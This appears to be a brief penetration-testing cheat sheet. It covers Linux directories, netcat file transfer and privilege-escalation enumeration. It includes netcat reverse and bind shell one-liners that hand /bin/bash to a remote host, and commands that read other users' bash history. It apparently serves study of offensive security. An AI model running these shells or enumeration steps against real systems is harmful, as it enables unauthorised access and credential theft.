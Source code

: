 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files
# File transfer
- `nc -nv 10.10.10.10 4444 < nc.exe` `nc -nlvp 4444 > nc.exe`

# Linux Shells
- netcat(nc)
  - Remote shell `nc -nv 10.10.10.10 4444 -e /bin/bash` 
  - Bind shell `nc -nvlp 4444 -e /bin/bash`
- 

# Linux privilege escalation
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps -ef | grep root` `ps -fC apache2`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
